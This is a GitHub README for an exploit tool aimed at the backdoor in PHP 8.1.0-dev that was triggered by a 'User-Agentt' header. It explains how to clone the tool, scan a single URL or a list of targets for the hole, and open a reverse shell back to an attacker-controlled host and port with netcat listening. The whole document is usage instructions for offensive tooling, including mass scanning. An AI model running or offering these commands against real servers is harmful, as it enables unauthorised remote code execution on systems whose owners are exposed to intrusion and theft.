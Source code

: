# PHP 8.1.0-dev backdoor

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

## How to install

You can install the exploit with git clone:

```
git clone https://github.com/0xGabe/php-8.1.0-backdoor
```

## How to use

### Check the vuln

The php-exploit at moment has two options, a single URL and a target list, see the commands below for both:

- Single URL

```
python3 php-exploit.py --url https://site.com
```

- Target List

```
python3 php-exploit.py --list target.txt
```

### Get a Reverse Shell

To get a reverse shell you need open another terminal with NC.

```
python3 php-exploit.py --url https://site.com --lhost YOUR-IP --lport YOUR-PORT
```

!()[poc-image.png]
